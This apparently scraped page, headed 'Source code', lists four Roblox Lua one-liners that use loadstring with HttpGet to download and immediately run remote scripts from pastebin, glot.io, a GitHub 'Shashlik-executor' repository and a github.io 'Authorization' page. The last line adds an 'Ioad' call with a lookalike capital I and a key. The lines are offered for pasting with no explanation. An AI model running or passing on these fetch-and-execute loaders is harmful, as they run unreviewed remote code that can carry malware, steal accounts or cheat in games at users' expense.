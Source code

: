 

loadstring(game:HttpGet("https://pastebin.com/raw/gth2hydY"))()

loadstring(game:HttpGet("https://raw.githubusercontent.com/sovetskii-shashlik/Shashlik-executor-1.1/refs/heads/main/Шашлык%20машлык.txt"))()

loadstring(game:HttpGet("https://glot.io/snippets/h3n1t3tj5i/raw/main.lua"))()

loadstring(game:HttpGet("https://ghostplayer352.github.io/Authorization/"))()Ioad("29bff83c0869e3fff006d48153a95d6d")
